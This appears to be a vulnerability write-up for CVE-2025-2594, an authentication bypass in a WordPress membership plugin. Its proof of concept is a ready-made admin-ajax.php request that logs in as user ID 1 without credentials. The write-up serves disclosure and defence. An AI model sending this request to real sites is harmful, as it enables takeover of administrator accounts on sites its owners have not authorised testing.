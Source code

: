 # CVE-2025-2594
###### User Registration & Membership <= 4.1.2 - Authentication Bypass

### Disclaimer!
The information presented in this CVE (Common Vulnerabilities and Exposures) writeup is for educational and informational purposes only. The details provided are based on publicly available resources, research, and analysis conducted by the author. The content is not intended to promote or encourage any illegal activities, including hacking, exploitation, or unauthorized access to systems.

The author does not assume any responsibility for any misuse of the information presented. It is recommended that individuals and organizations apply this knowledge responsibly and in compliance with applicable laws and regulations. Readers are strongly advised to test vulnerabilities only in controlled environments with proper authorization.

The author and contributors of this writeup do not endorse or support malicious activities and encourage responsible disclosure and ethical hacking practices.

---

### Description
A critical security vulnerability has been discovered in the “User Registration & Membership” WordPress plugin, a popular tool for creating membership websites and registration forms. The flaw, identified as CVE-2025-2594, carries a CVSS score of 8.1, indicating its high severity.

The User Registration & Membership plugin for WordPress is vulnerable to authentication bypass in versions up to, and including, 4.1.2. This is due to incorrect authentication in the 'confirm_payment()' function. This makes it possible for unauthenticated attackers to log in an existing user on the site, even an administrator, with this conditions:
1. **The plugin has activate membership add-on**
---

### PoC (Proof Of Concept)

1. get _confirm_payment_nonce at registration page
2. Sample request data
    ```text
    POST /wp-admin/admin-ajax.php HTTP/1.1
    User-Agent: PostmanRuntime/7.43.3
    Accept: */*
    Postman-Token: b41b34c8-c1c9-4e3a-aa4f-380706626e7a
    Host: hackthebox.test
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Content-Type: multipart/form-data; boundary=--------------------------705549092016875046023302
    Content-Length: 565
    
    ----------------------------705549092016875046023302
    Content-Disposition: form-data; name="action"
    
    user_registration_membership_confirm_payment
    ----------------------------705549092016875046023302
    Content-Disposition: form-data; name="security"
    
    CONFIRM_PAYMENT_NONCE
    ----------------------------705549092016875046023302
    Content-Disposition: form-data; name="form_response"
    
    { "auto_login": true }
    ----------------------------705549092016875046023302
    Content-Disposition: form-data; name="member_id"
    
    1
    ----------------------------705549092016875046023302--
   ```
3. The response must be like this  
    ```json
    {"success":true,"data":{"message":null}}
    ```
4. Sample response
   ![Screenshot 14](Screenshot_14.png)

---

### Reference
> 1. https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/user-registration/user-registration-membership-412-authentication-bypass
> 2. https://plugins.trac.wordpress.org/browser/user-registration/tags/4.1.1/modules/membership/includes/AJAX.php#L566
> 3. https://plugins.trac.wordpress.org/changeset/3262077/user-registration/trunk/modules/membership/includes/AJAX.php
> 4. https://plugins.trac.wordpress.org/changeset/3262077/user-registration/trunk/modules/membership/includes/Admin/Services/MembersService.php

---

### Thank you

- https://saweria.co/ubaii
- https://buymeacoffee.com/ubaii
- https://trakteer.id/ubaii